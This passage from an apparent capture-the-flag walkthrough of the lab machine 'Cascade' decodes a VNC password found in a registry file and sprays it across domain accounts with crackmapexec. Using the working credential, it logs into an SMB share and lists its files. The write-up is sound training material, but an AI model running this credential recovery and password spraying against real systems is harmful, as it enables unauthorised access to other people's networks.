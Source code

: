 `VNC Install.reg` contain password for VNC. I downloaded [vncpwd](https://github.com/jeroennijhof/vncpwd) for password decryption. 

```
$ echo '6bcf2a4b6e5aca0f' | xxd -r -p > vnc_enc_pass
$ ./vncpwd vnc_enc_pass                                 
Password: sT333ve2
```

Checked newly obtained password with crackmapexec

```
crackmapexec smb 10.10.10.182 -u username -p sT333ve2 --continue-on-success
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\arksvc:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\r.thompson:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\util:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.wakefield:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.hickson:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.goodhand:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\a.turnbull:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\e.crowe:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\b.hanson:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\d.burman:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\BackupSvc:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.allen:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\i.croft:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\CascGuest:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\:sT333ve2 STATUS_LOGON_FAILURE 
```

`s.smith` has access to Audit$ share. I immediately logged into it and I used same trick to download all files.

```
smbclient -U "s.smith" //10.10.10.182/Audit$ 
Enter WORKGROUP\s.smith's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                      An    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020

```